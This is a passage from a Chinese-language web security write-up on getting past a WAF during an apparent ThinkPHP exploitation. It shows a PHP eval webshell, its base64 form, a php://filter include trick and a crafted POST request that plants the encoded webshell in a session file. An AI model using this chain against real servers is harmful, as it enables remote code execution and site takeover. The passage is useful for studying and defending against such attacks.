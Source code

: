 而这两种方式在这里都不可用，因为waf对`<?php`等关键字进行了拦截，还有其他办法吗？

### base64编码与php://filter伪协议

倘若能够对关键字进行变形或者编码就好了，比如base64编码:

假如我们的session 文件为`/tmp/sess_kking`，内容如下

```


1.  `PD9waHAgQGV2YWwoJF9HRVRbJ3InXSk7Oz8+  
    `
2.  `<?php @eval($_GET['r']);;?>`


```

因为最终的利用是通过`inlcude`方法进行包含，其实很容易想到可以利用`php://filter/read=convert.base64-decode/resource=/tmp/sess_kking`的方式进行解码

最终执行类似如下：

```


1.  include('php://filter/read=convert.base64-decode/resource=/tmp/sess\_kking');


```

但是session里面是会有其他字符的

![](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHBzL3h6ZmlsZS5hbGl5dW5jcy5jb20vbWVkaWEvdXBsb2FkL3BpY3R1cmUvMjAxOTA4MjYwOTAwMDctZDhjNTE4OTAtYzc5Yy0xLnBuZw==.jpg)

如何让`php://filter`正确的解码呢?  
p神的[谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)文章有谈到如何巧妙用`php://filter`与`base64`编码绕过死亡`exit`

![](https://bbsmax.ikafan.com/static/L3Byb3h5L2h0dHBzL3h6ZmlsZS5hbGl5dW5jcy5jb20vbWVkaWEvdXBsb2FkL3BpY3R1cmUvMjAxOTA4MjYwOTAwMDgtZDhmYWU0MGMtYzc5Yy0xLnBuZw==.jpg)

那么这里也一样，我们只要构造合适的字符，使得我们的webshell能够正确被base64解码即可。

本地测试

第一步，设置session

```


1.  POST /?s\=captcha

3.  \_method\=\_\_construct&filter\[\]=think\\Session::set&method\=get&get\[\]=adPD9waHAgQGV2YWwoJF9HRVRbJ3InXSk7Oz8%2bab&server\[\]=1


```
